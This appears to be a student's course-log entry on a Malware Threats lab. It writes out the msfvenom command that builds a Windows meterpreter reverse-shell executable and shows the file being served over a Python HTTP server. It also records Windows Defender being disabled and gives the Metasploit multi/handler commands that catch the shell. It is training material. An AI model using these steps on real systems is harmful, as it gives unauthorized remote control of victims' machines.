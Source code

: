 # Day 09 – Malware Threats (Continued) – Reverse Shell via Malware

## 📘 Module: Malware Threats (Module 4)

On Day 09, the Malware Threats module was continued with hands-on practice. The focus was on how malware can be crafted, delivered, and exploited to gain unauthorized access to a target system using reverse shells.

---

## 📚 Topics Covered

- **What are Advanced Persistent Threats (APTs)?**
  - APTs are defined as a type of network attack, where an attacker gains unauthorized access to a target network and remains undetected for a long period of time.
  - Long-term, stealthy cyberattacks targeting specific entities.
  - Often involve multiple phases: reconnaissance, exploitation, and persistence.

- **Creating a Malware Payload using `msfvenom`:**
  - Payload: `windows/meterpreter/reverse_tcp`
  - Command example:
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=4444 -f exe > shell.exe
    ```

- **Transferring the Payload to the Victim (Windows 10):**
  - Hosted `shell.exe` on Kali using Python HTTP server:
    ```bash
    python3 -m http.server
    ```
  - Downloaded the file on the Windows 10 machine via browser.

- **Bypassing Windows Defender:**
  - **Turned off Real-Time Protection** in Windows Security settings to allow execution.

- **Exploiting with Metasploit:**
  - Used `msfconsole` with `exploit/multi/handler`.
  - Payload set as:
    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST <your_IP>
    set LPORT 4444
    run
    ```
  - Upon executing `shell.exe` on Windows, a **reverse shell** session was established via `meterpreter`.

- **Post-Exploitation Access:**
  - Confirmed full access to the victim machine through the `meterpreter` session.
  - Basic enumeration done (e.g., system info, user privileges).

---

## 🛠️ Tools and Commands Used

- `msfvenom`
- `python3 -m http.server`
- `msfconsole` with:
  - `exploit/multi/handler`
  - Payload: `windows/meterpreter/reverse_tcp`

---

## 📝 Summary

On Day 09, the theoretical understanding of malware threats was extended into practical exploitation. Using Kali Linux and Metasploit, a custom reverse shell was created and deployed against a Windows 10 machine, successfully achieving remote access. This exercise demonstrated how attackers exploit malware payloads and emphasized the need for strong endpoint protection and user awareness.
